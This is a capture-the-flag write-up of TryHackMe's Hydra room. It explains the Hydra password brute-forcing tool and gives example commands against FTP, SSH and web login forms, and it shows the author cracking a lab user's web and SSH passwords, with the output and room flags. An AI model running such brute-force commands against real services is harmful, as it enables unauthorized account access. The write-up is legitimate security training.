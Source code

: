 # THM - Hydra

[TryHackMe](https://tryhackme.com/room/hydra)

> Michael Jack | 06/2022

---

## Task 1 - Hydra Introduction

Hydra is a brute-force password attacking tool.

> We can use Hydra to run through a list and 'bruteforce' some authentication service.
> Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

> Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

*For more information on each protocol with hydra*: https://en.kali.tools/?p=220 

---

## Task 2 - Using Hydra

There are different options used with Hydra depending on the protocol we are attacking.

> For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt

### Example Hydra Comands

- FTP: `hydra -l user -P passlist.txt ftp://MACHINE_IP`
- SSH: `hydra -l <username> -P <full path to pass> 10.10.73.125 -t 4 ssh`
- Post Web Form: `hydra -l <username> -P <wordlist> 10.10.73.125 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

### Questions

> Use Hydra to bruteforce molly's web password. What is flag 1?

```shell
hydra -l molly -P /opt/rockyou.txt 10.10.73.125 http-post-form '/login:username=^USER^&password=^P  
ASS^:F=incorrect'

[80][http-post-form] host: 10.10.73.125   login: molly   password: sunshine
```

```
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

> Use Hydra to bruteforce molly's SSH password. What is flag 2?

```shell
hydra -l molly -P /home/michaelj/projects/assets/rockyou.txt 10.10.73.125 -t 4 ssh

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret servic  
e organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway)  
.  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-08 04:54:26  
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries  
per task  
[DATA] attacking ssh://10.10.73.125:22/  
[22][ssh] host: 10.10.73.125   login: molly   password: butterfly  
1 of 1 target successfully completed, 1 valid password found  
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-08 04:55:27
```

```
THM{c8eeb0468febbadea859baeb33b2541b}
```

---
